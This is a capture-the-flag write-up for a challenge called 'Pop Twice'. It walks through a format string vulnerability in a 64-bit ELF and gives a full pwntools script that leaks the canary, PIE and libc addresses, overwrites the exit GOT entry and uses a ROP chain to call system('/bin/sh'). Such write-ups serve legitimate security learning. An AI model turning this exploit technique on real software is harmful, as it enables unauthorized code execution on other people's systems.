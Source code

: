 # Pop Twice

The challenge file was given, an elf file checking the file propertise we could see it's a 64-bit ELF file, not stripped.

![](https://Cyberguru1.github.io/posts/phoenix/files/1688625170436.png)

let's try running the ELF file

![](https://Cyberguru1.github.io/posts/phoenix/files/1688625218436.png)

we could see it ask for input twice and print's out our input to us.

Decompiling the file in ghidra, we could see the decompiled source code:

![](https://Cyberguru1.github.io/posts/phoenix/files/1688625411779.png)

from the source code we could conclude that this is not our regular buffer overflow challenge, because for each input to the buffer there's a bound from the `fgets` function, `local_418` size is `512` and the max input is `0x200` which is `512` in decimal, simillar to `local_218`.

The only way to exploit this program is using the fomart string vulnerability, because our input stored in the buffer is printed right back to us.

Before going forward with the exploit let's run checksec on the ELF file to see the security mechanisms enabled on the file.

![](https://Cyberguru1.github.io/posts/phoenix/files/1688626124389.png)

we could see that `NX` and `PIE` bit is enabled, meaning we have non executable code in the stack and address layout randomization on the  ELF file respectively, we need to fuzz the ELF file and find some imortant address to bypass the security mechanism.

i wrote a simple bash fuzzer to perform this:

![](https://Cyberguru1.github.io/posts/phoenix/files/1688627879663.png)

running it we found the stack canary at index `43`

![](https://Cyberguru1.github.io/posts/phoenix/files/1688627999666.png)

we found `PIE` leak at index 139

![](https://Cyberguru1.github.io/posts/phoenix/files/1688628475148.png)

How do we know that's the `PIE` leak, this is true because main start at:

![](https://Cyberguru1.github.io/posts/phoenix/files/1688628544895.png)

`Libc` leak is found at index 137![](https://Cyberguru1.github.io/posts/phoenix/files/1688628727909.png)

having all this offset we could now proced with our exploit.

we could automate this using pwntools:

```python
# leaking offsets

canary_leak = "%43$p" # stack canary leak 
pie_leak = "%139$p"   # pie leak
libc_leak = "%137$p"  # libc leak

# sending payload 

p.sendline(canary_leak + " " + pie_leak +  " " +libc_leak)

result = p.recvuntil(b"\n").decode()
canary, pie, libcc = list(map(lambda x: int(x,16), result.split(" "))) 

```

we could now use the offsets found using gef to readjust the base address of the ELF files;

```python
## reseting the base address
exe.address = pie - 0x1159

log.info(f"base address : {hex(exe.address)}")

libc.address = libcc - 0x2718a  # setting libc address

log.info(f"libc address : {hex(libc.address)}")

```

let's now craft our shell payload to execute `/bin/sh`

```python

pop_rdi_ret = next(libc.search(asm('pop rdi; ret')))

exit_addr = exe.got['exit']

bin_sh = next(libc.search(b'/bin/sh\x00')) 

system_addr = libc.symbols['system']

# crafting payload for system("/bin/sh")

ad_payload = p64(pop_rdi_ret)
ad_payload += p64(bin_sh)
ad_payload += p64(system_addr)

```

using the fmtstr vulnerablity payload to reassign the `rip` pointer, we fuzz again to find the offset at which our input is stored on the stack, which is at index `70`,

using the offset we could reassing the `rip` to our payload.

the plan here to exploit this by saving our payload in the stack and running the program again and set our `rip` to where the payload is stored.

**How do we archive this ?**

we start the program and use the fmtstr vulnerability to get all necessay address to bypass the security mechanism, we then set `rip` back to main to run the program again this time we store the payload on the stack, after doing that we set the `rip` back to `pop_rdi_ret ` to run the content stored on the stack.

```python
fpayload = fmtstr_payload(70, {exit_addr:exe.symbols['main']})


p.send(fpayload)
p.sendline()


# sending the payload to save in first buffer
# for use later

p.send(ad_payload)
p.sendline()

# pointing the exit GOT addr to the payload on the buffer

fpayload = fmtstr_payload(70, {exit_addr:pop_rdi_ret})

p.send(fpayload)
p.sendline()
```

Getting all this together we have:

```python
#!/usr/bin/python

from os import system
from pwn import *
from struct import pack

## settings
context.binary = exe =  ELF("./chall")


## initializing libc
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)

## spawing process
p = process(exe.path)


s_arr1 = 512 # size of buff1
s_arr2 = 520 # size of buff2

# leaking offsets

canary_leak = "%43$p" # stack canary leak 
pie_leak = "%139$p"   # pie leak
libc_leak = "%137$p"  # libc leak

# sending payload 

p.sendline(canary_leak + " " + pie_leak +  " " +libc_leak)

result = p.recvuntil(b"\n").decode()
canary, pie, libcc = list(map(lambda x: int(x,16), result.split(" "))) 


## reseting the base address
exe.address = pie - 0x1159

log.info(f"base address : {hex(exe.address)}")

libc.address = libcc - 0x2718a  # setting libc address

log.info(f"libc address : {hex(libc.address)}")


pop_rdi_ret = next(libc.search(asm('pop rdi; ret')))

exit_addr = exe.got['exit']

bin_sh = next(libc.search(b'/bin/sh\x00')) 

system_addr = libc.symbols['system']

# crafting payload for system("/bin/sh")

ad_payload = p64(pop_rdi_ret)
ad_payload += p64(bin_sh)
ad_payload += p64(system_addr)

 
# using fmtstring vuln to call main again

fpayload = fmtstr_payload(70, {exit_addr:exe.symbols['main']})


p.send(fpayload)
p.sendline()


# sending the payload to save in first buffer
# for use later

p.send(ad_payload)
p.sendline()

# pointing the exit GOT addr to the payload on the buffer

fpayload = fmtstr_payload(70, {exit_addr:pop_rdi_ret})

p.send(fpayload)
p.sendline()


# gdb.attach(p, f"""b * main+120
#                 init-gef
#                 got
#                 register
#                 c
#                 x/30wgx $rsp
#                 x/s {bin_sh}
#                 x/s {system_addr}
#                 x/i {pop_rdi_ret}""")

p.interactive()





```

Running the script we have our shell :

![](https://Cyberguru1.github.io/posts/phoenix/files/1688631576538.png)
